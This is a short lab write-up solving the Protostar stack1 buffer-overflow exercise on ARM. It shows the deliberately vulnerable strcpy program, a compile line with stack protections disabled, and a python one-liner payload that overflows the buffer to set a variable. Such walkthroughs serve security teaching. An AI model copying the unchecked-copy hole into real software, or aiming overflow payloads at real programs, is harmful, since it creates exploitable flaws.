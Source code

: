 ## Protostar ARM ./stack1


#### Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
    errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
    printf("you have correctly got the variable to the right value\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### _Let's start_
This challenge is pretty similar to the challenge `stack0` except for:
* Data is passed via arguments instead of user input
* The value of the variable `modified`  has to be modified with a specific value `0x61626364`

Let's compile  
```c
gcc -g -fno-stack-protector -z execstack -no-pie -o stack1 stack1.c
```

We can use a similar workaround from the previous challenge but in this case, after that we fill the buffer variable with the `char A`, we will write as 65th byte the value checked in the if branch `0x61626364` (**_Little Endian_**).

```c
pi@raspberrypi:~/protostar/stack1 $ ./stack1 $(python -c "print 'A' * 64 + 'dcba'")
you have correctly got the variable to the right value
```
or...

```c
pi@raspberrypi:~/protostar/stack1 $ ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```
**_Done :)_**
